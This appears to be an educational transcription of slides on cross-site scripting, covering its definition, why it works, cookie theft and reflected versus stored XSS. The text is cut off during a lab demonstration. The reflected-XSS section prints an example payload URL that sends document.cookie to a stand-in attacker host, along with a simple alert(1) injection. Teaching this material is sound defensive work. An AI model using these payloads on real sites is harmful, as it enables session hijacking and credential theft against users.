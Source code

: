 # Web Attacks: XSS (Cross Site Scripting)

## Definition and General Mechanism

*   **Definition**: XSS (Cross Site Scripting) consists of injecting arbitrary code (usually HTML/JavaScript) into a web application. This code is then executed in a user's web browser or any solution that interprets HTML code.
*   **Attack Technique**: It is a client-side attack technique. It leverages the victims' browser to execute malicious code.
*   **Target**: The attack does not directly target the website itself, but rather the internet users (internautes) who visit it.

## Fundamental Problem

The XSS attack is possible when a web server or web application:
1.  Does not validate data provided by visitors (e.g., URL, form content).
2.  Sends back this unfiltered text, provided by users, without having filtered it beforehand.

## Main Objective of the XSS Attack

*   **Identity Data Theft**: The main goal is to steal users' personal and identification information, such as:
    *   Cookies
    *   Session tokens
    *   Credit card numbers
    *   Other sensitive information.
*   **Importance of Cookies**: Cookies facilitate automatic login. Stealing cookies allows an attacker to log in as the victim. This ranks XSS among the riskiest attacks.

## Main Types of XSS

There are two main types of XSS attacks:

1.  **Reflected XSS (Non-Permanent)**
2.  **Stored XSS (Permanent)**

---

### 1. Reflected XSS (Non-Permanent)

*   **Characteristics**:
    *   Called "non-permanent" because the malicious code is **not saved** in a file or database on the server.
    *   Data sent by a client (e.g., via a URL parameter) is displayed as-is in the resulting page returned by the server.
*   **Attack Flow (based on slide 2)**:
    1.  The "Pirate" (attacker) crafts a malicious link containing the injected script (e.g., `https://banque.com/?search=<script>alert(1)</script>` or to steal cookies: `https://banque.com/?search=<script>var i = new Image; i.src="http://site-attacker.com"+document.cookie;</script>`).
    2.  The "Victime" (victim) clicks on this link.
    3.  The victim's browser sends the request to the "Site web ciblé" (targeted website, e.g., `https://banque.com`), including the injected code in the URL.
    4.  The web server processes the request and **reflects** the injected code in the HTML response sent to the victim's browser. The victim's browser then executes this code.
    5.  If the script is designed for it (e.g., cookie theft), it sends the stolen data to the attacker's server ("Envoi de données" - Data Sending).
*   **Demonstration (based on slide 4)**:
    *   **Normal behavior**: A search for `security` on `...web-security-academy.net/?search=security` displays "0 search results for 'security'".
    *   **Attack**: The URL is modified to `...web-security-academy.net/?search=<script>alert(1)</script>`.